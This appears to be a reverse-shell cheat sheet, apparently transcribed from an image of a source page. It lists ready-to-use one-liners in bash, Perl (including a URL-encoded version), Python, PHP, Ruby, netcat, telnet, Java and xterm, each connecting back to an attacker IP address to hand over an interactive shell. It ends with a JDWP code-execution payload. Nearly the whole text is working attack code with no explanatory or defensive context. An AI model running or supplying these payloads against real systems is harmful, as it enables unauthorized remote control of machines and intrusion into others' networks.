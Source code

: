 bash -i >& /dev/tcp/10.0.0.1/8080 0>&1



#### Perl

perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'



#### URL-Encoded Perl: Linux

echo%20%27use%20Socket%3B%24i%3D%2210.11.0.245%22%3B%24p%3D443%3Bsocket%28S%2CPF_INET%2CSOCK_STREAM%2Cgetprotobyname%28%22tcp%22%29%29%3Bif%28connect%28S%2Csockaddr_in%28%24p%2Cinet_aton%28%24i%29%29%29%29%7Bopen%28STDIN%2C%22%3E%26S%22%29%3Bopen%28STDOUT%2C%22%3E%26S%22%29%3Bopen%28STDERR%2C%22%3E%26S%22%29%3Bexec%28%22%2fbin%2fsh%20-i%22%29%3B%7D%3B%27%20%3E%20%2ftmp%2fpew%20%26%26%20%2fusr%2fbin%2fperl%20%2ftmp%2fpew

#### Python

python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

#### PHP

php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'

#### Ruby

ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'

#### Netcat without -e #1

rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc 10.0.0.1 1234 > /tmp/f

#### Netcat without -e #2

nc localhost 443 | /bin/sh | nc localhost 444

telnet localhost 443 | /bin/sh | telnet localhost 444

#### Java

r = Runtime.getRuntime(); p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.0.0.1/2002;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[]); p.waitFor();

#### XTerm

xterm -display 10.0.0.1:1

### JDWP RCE

print new java.lang.String(new java.io.BufferedReader(new java.io.InputStreamReader(new java.lang.Runtime().exec("whoami").getInputStream())).readLine())
